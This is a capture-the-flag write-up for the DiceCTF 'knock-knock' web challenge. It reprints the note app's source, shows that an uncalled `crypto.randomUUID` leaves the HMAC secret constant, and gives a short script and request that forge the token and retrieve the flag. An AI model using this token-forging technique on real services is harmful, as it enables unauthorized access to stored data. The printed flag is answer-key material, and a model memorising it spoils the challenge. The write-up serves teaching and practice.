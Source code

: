 # DiceCTF knock-knock Write Up

## Details:

Jeopardy style CTF

Category: Web Exploitation

## Write up:

The challenge provides the link: https://knock-knock.mc.ax/

In the page you can create a new note and read existing ones (if you know the correct id and corresponding token).

The source code of the backend is provided:

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```


We can observe that the flag is saved in the first note (so with id 0), if we find a way to generate a valid token for each id we can request the flag with the GET request `https://knock-knock.mc.ax/note?id=0&token=CORRECT_TOKEN`.

The server checks if the given token is equal to the one generated for the given id with the following function

```js
return crypto.createHmac('sha256', this.secret).update(id.toString()).digest('hex');
```

where
```js
this.secret = `secret-${crypto.randomUUID}`;
```

The function `crypto.randomUUID()` returns a pseudo-random string, for example `fb5c81ab-c3ae-40c4-9586-29a7e459e263`, so we could think that `this.secret` will be an unpredictable random string similar to `secret-fb5c81ab-c3ae-40c4-9586-29a7e459e263`.

But the code doesn't call `crypto.randomUUID()`, because there aren't the parenthesis and we can test that `secret-${crypto.randomUUID}` outputs the help message for the function, so the secret key will be the following string:

```
'secret-function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
  "    validateObject(options, 'options');\n" +
  '  const {\n' +
  '    disableEntropyCache = false,\n' +
  '  } = options || {};\n' +
  '\n' +
  "  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');\n" +
  '\n' +
  '  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();\n' +
  '}'
```

Having the constant secret key we can recreate the token corresponding to any id, in particular we can calculate the token for id 0:

```js
const crypto = require('crypto');
let secret = `secret-${crypto.randomUUID}`;
let id = 0;
console.log(crypto.createHmac('sha256', secret).update(id.toString()).digest('hex'));
```

that generates the string `7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264`.

So the flag can be retrieved with the GET request `https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264` (for example performed using a browser).

## Flag

The page will respond with the flag `dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}`
